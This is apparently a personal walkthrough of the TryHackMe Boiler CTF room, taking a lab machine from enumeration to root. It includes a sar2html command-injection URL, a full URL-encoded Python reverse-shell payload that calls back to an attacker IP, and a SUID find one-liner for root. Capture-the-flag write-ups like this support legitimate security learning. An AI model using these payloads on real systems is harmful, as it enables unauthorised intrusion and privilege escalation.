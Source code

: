 # Boiler CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Boiler CTF** CTF challenge on [TryHackMe](https://tryhackme.com/room/boilerctf2). 
---


we see 4 ports open 21, 80, 10000, 55007

![scan](imgs/scan.png "scan")

checking ftp first

![ftp](imgs/ftp.png "ftp")

we found hidden txt file containing: `Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
` this is ROT13 encoded but there is no usefull info

we need to check the webpage, on the port 80 there is default apache2 `2.4.18` website 

we see some interesting data inside robots.txt 

![rob](imgs/rob.png "rob")

```
/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075


```

from the numbers we can decipher md5 hash 

found few folders with feroxbuster for port 10000

![ferox1](imgs/ferox1.png "ferox1")

I found joomla by using feroxbuster

![ferox2](imgs/ferox2.png "ferox2")

i tested folders `/_database` , `/_archive`, `/_files` and `/_test`

on the `/_test` directory i found `sar2html`

![sar](imgs/sar.png "sar")

after googling i found RCE exploit in `exploit-db` and note how to execute it

![exploit](imgs/exploit.png "exploit")

after inputing `http://IP/joomla/_test/index.php?plot=;whoami` we know about `www-data` user

![whoami](imgs/whoami.png "whoami")

i tried few diffrent reverse shells and this worked 

```
http://10.10.184.86/joomla/_test/index.php?plot=;python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.14.91.59%22,4445));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```

![rev](imgs/rev.png "rev")

we have shell access as www-data, after checking with ls we found `log.txt` and inside there is password for `basterd` user

![log](imgs/log.png "log")

after looking around we find `backup.sh` script, inside we some comment that looks like password and also we see ssh where `USER=stoner` command 

![backup](imgs/backup.png "backup")

i will try to switch to stoner using this password 

it worked and we also found user flag

![user](imgs/user.png "user")

there was no `wget` so i used `curl -O` to get `linpeas.sh`

![lin1](imgs/lin1.png "lin1")

we found SUID for `/usr/bin/find`

![lin2](imgs/lin2.png "lin2")

checked GTFObins for PE vector

![gtfo](imgs/gtfo.png "gtfo")

we use this one-liner to become root

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

now we have root access and root flag

![root](imgs/root.png "root")

# MACHINE PWNED
